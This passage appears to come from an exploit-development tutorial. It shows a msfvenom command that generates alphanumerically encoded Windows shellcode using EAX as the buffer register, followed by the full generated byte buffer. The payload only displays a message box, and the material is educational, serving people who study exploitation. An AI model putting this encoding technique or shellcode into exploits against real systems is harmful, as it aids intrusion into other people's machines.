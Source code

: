 Repeating as the previous section, shellcode is generated with its respective flags, using EAX instead of ESP:

```term
root@whitecr0wz:~# msfvenom -p windows/messagebox TEXT='Thanks for reading the post! Until next time!' -f py -e x86/alpha_mixed EXITFUNC=thread BufferRegister=EAX 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 668 (iteration=0)
x86/alpha_mixed chosen with final size 668
Payload size: 668 bytes
Final size of py file: 3255 bytes
buf =  b""
buf += b"\x50\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x68\x59\x48\x6b\x6f\x6b\x59\x49\x61\x64\x54\x64\x79"
buf += b"\x64\x35\x61\x7a\x72\x4f\x42\x70\x77\x35\x61\x4f\x39"
buf += b"\x55\x34\x6c\x4b\x74\x31\x46\x50\x4c\x4b\x52\x56\x44"
buf += b"\x4c\x6c\x4b\x44\x36\x47\x6c\x6c\x4b\x32\x66\x37\x78"
buf += b"\x6c\x4b\x61\x6e\x57\x50\x4c\x4b\x47\x46\x57\x48\x72"
buf += b"\x6f\x54\x58\x34\x35\x79\x63\x73\x69\x43\x31\x4a\x71"
buf += b"\x49\x6f\x39\x71\x31\x70\x4c\x4b\x42\x4c\x75\x74\x64"
buf += b"\x64\x4e\x6b\x67\x35\x65\x6c\x4c\x4b\x33\x64\x64\x68"
buf += b"\x52\x58\x53\x31\x48\x6a\x6e\x6b\x70\x4a\x77\x68\x4c"
buf += b"\x4b\x51\x4a\x67\x50\x56\x61\x6a\x4b\x39\x73\x37\x44"
buf += b"\x57\x39\x4e\x6b\x64\x74\x6c\x4b\x57\x71\x48\x6e\x35"
buf += b"\x61\x6b\x4f\x65\x61\x79\x50\x49\x6c\x6c\x6c\x4c\x44"
buf += b"\x39\x50\x53\x44\x45\x57\x4a\x61\x78\x4f\x44\x4d\x33"
buf += b"\x31\x79\x57\x4a\x4b\x69\x64\x77\x4b\x33\x4c\x64\x64"
buf += b"\x54\x68\x64\x35\x58\x61\x4e\x6b\x71\x4a\x47\x54\x57"
buf += b"\x71\x68\x6b\x53\x56\x4e\x6b\x76\x6c\x70\x4b\x4e\x6b"
buf += b"\x52\x7a\x75\x4c\x33\x31\x48\x6b\x4c\x4b\x65\x54\x6c"
buf += b"\x4b\x45\x51\x69\x78\x4e\x69\x37\x34\x35\x74\x47\x6c"
buf += b"\x43\x51\x48\x43\x6c\x72\x63\x38\x75\x79\x48\x54\x6c"
buf += b"\x49\x4d\x35\x6c\x49\x79\x52\x73\x58\x6c\x4e\x62\x6e"
buf += b"\x64\x4e\x6a\x4c\x51\x42\x58\x68\x6f\x6f\x79\x6f\x39"
buf += b"\x6f\x49\x6f\x6d\x59\x37\x35\x73\x34\x4f\x4b\x7a\x4f"
buf += b"\x68\x4e\x79\x70\x53\x50\x4d\x57\x75\x4c\x55\x74\x46"
buf += b"\x32\x7a\x48\x4e\x6e\x49\x6f\x6b\x4f\x4b\x4f\x4c\x49"
buf += b"\x72\x65\x43\x38\x62\x48\x42\x4c\x30\x6c\x77\x50\x73"
buf += b"\x71\x62\x48\x77\x43\x65\x62\x34\x6e\x52\x44\x55\x38"
buf += b"\x34\x35\x71\x63\x53\x55\x73\x42\x76\x50\x4b\x6b\x6f"
buf += b"\x78\x53\x6c\x67\x54\x45\x5a\x6d\x59\x78\x66\x56\x36"
buf += b"\x39\x6f\x50\x55\x54\x44\x6b\x39\x6a\x62\x46\x30\x6d"
buf += b"\x6b\x6e\x48\x4e\x42\x30\x4d\x4f\x4c\x4d\x57\x47\x6c"
buf += b"\x51\x34\x43\x62\x48\x68\x51\x4f\x39\x6f\x49\x6f\x39"
buf += b"\x6f\x71\x78\x70\x6f\x64\x38\x61\x48\x61\x30\x55\x38"
buf += b"\x43\x51\x50\x67\x52\x45\x62\x62\x61\x78\x32\x6d\x53"
buf += b"\x55\x71\x63\x34\x33\x54\x71\x4b\x6b\x6d\x58\x53\x6c"
buf += b"\x34\x64\x65\x5a\x4c\x49\x5a\x43\x65\x38\x65\x71\x56"
buf += b"\x38\x67\x50\x77\x50\x43\x58\x54\x34\x42\x49\x42\x4d"
buf += b"\x75\x35\x55\x38\x61\x75\x32\x58\x51\x64\x65\x70\x51"
buf += b"\x78\x31\x79\x42\x4c\x71\x30\x30\x6e\x43\x58\x31\x30"
buf += b"\x50\x55\x70\x6e\x63\x44\x55\x38\x50\x6f\x43\x43\x71"
buf += b"\x64\x54\x61\x45\x38\x73\x58\x70\x65\x77\x50\x30\x70"
buf += b"\x43\x58\x50\x6e\x31\x77\x61\x30\x70\x74\x61\x78\x35"
buf += b"\x35\x55\x31\x61\x74\x65\x39\x53\x58\x50\x6f\x71\x62"
buf += b"\x77\x50\x62\x52\x75\x38\x70\x6b\x53\x43\x75\x70\x51"
buf += b"\x76\x32\x48\x36\x34\x55\x38\x50\x61\x72\x4e\x45\x61"
buf += b"\x6a\x69\x6d\x58\x62\x6c\x74\x64\x46\x4d\x6b\x39\x49"
```